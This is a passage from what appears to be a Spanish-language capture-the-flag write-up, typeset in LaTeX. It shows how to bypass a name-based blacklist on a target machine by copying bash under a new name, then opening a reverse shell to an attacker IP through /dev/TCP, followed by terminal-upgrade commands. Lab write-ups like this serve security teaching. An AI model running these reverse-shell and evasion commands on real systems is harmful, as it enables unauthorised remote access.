 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\begin{document}
Vemos que el commando \texttt{nc} esta BlackListeado y que loggea el Proccess Kill en este fichero. El problema de esto es que se puede
que los commandos BlackListeados se controllan con los nombres mismo (no permite \texttt{nc,\ python,\ bash}). Pero que passa si copiamos el
binario bash y que le ponemos un nombre differente.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443 en la maquina de attaquante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Copiamos el tool bash en un lugar donde tenemos derechos de escritura y lo nombramos de otra manera

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cp}\NormalTok{ /bin/bash /dev/shm/s4vitar}
\FunctionTok{ls}\NormalTok{ /dev/shm/s4vitar}
\ExtensionTok{/dev/shm/s4vitar}\NormalTok{ -i }\OperatorTok{>}\KeywordTok{&} \ExtensionTok{/dev/TCP/10.10.14.20/443} \OperatorTok{0>&1}
\ExtensionTok{/dev/shm/s4vitar}\NormalTok{ -c }\StringTok{"/dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1"}
\ExtensionTok{/dev/shm/s4vitar}\NormalTok{ -c }\StringTok{'/dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1'}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Este truquillo muestra la manera de BlackListear que utiliza la maquina victima porque ya hemos podido entablar la shell
y no nos mata la session.

\hypertarget{tratamiento-de-la-tty-5}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-5}}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}
\end{document}
